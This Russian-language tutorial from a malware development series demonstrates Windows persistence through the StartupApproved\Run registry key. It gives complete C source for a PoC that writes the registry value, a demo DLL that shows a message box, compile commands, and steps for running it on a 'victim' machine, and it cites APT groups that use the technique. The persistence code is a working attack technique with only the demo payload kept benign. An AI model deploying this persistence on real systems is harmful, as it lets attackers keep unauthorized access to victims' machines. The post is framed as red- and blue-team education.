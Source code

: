 \newpage
\subsection{90. разработка вредоносного ПО: закрепление (persistence) - часть 24. StartupApproved. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Этот пост основан на моем собственном исследовании еще одной интересной техники закрепления вредоносного ПО: через ключ реестра `StartupApproved`.     

### StartupApproved

В самом первом посте серии о закрепления я писал об одной из самых популярных и уже классических техник - через [ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

Необычная запись в реестре, используемая стандартным процессом "автозагрузки" (т. е. тем, который в основном управляется проводником Windows, такими как ключи `Run` и `RunOnce`, папка автозагрузки и т. д.) после завершения работы `userinit.exe`, находится в следующем месте в реестре:    
```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Оказывается, этот ключ заполняется при включении или отключении записей на вкладке `Startup` диспетчера задач Windows:     

![pers](./images/117/2024-03-15_00-47.png){width="80%"}    

Хорошая новость в том, что мы можем использовать этот путь в реестре для закрепления.     

### практический пример

Прежде всего, проверяем ключи реестра с помощью следующей команды:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

![pers](./images/117/2024-03-14_23-57_1.png){width="80%"}    

На следующем шаге, как обычно, создаем наше "вредоносное" приложение (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, просто окно с сообщением `meow-meow`.      

Затем мы просто модифицируем ключ реестра `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved`, например, так (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Как можно видеть, логика нашего Proof of Concept довольно проста - мы устанавливаем значение записи в реестре в бинарный формат `0x02 0x00...`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем нашу "вредоносную" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](./images/117/2024-03-14_21-50.png){width="80%"}    

Затем компилируем наш PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/117/2024-03-14_21-51.png){width="80%"}    

Наконец, запускаем его на машине жертвы. В моем случае, для Windows 10 x64 v1903 VM, это выглядит так:     

```powershell
.\pers.exe
```

![pers](./images/117/2024-03-15_00-46.png){width="80%"}    

Как можно видеть, я также повторно проверил реестр:     

```powershell
reg query \
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" \
/s
```

![pers](./images/117/2024-03-15_00-46_1.png){width="80%"}    

Затем выходим из системы и входим снова:     

![pers](./images/117/2024-03-15_00-50.png){width="80%"}    

![pers](./images/117/2024-03-15_00-51.png){width="80%"}    

Но неожиданно для меня это не сработало...    

Затем я просто обновил имя записи:     

![pers](./images/117/2024-03-15_00-54.png){width="80%"}    

Вышел и снова вошел в систему, немного подождал... и все сработало идеально....

![pers](./images/117/2024-03-15_01-03.png){width="80%"}    

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Таким образом, я обновил одну строку в моем скрипте:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Но есть одна оговорка. Иногда, когда я тестировал эту функцию, она запускала, например, Skype:     

![pers](./images/117/2024-03-14_23-56.png){width="80%"}    

![pers](./images/117/2024-03-14_23-57.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) и [APT33](https://attack.mitre.org/groups/G0064/) в реальных атаках. По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
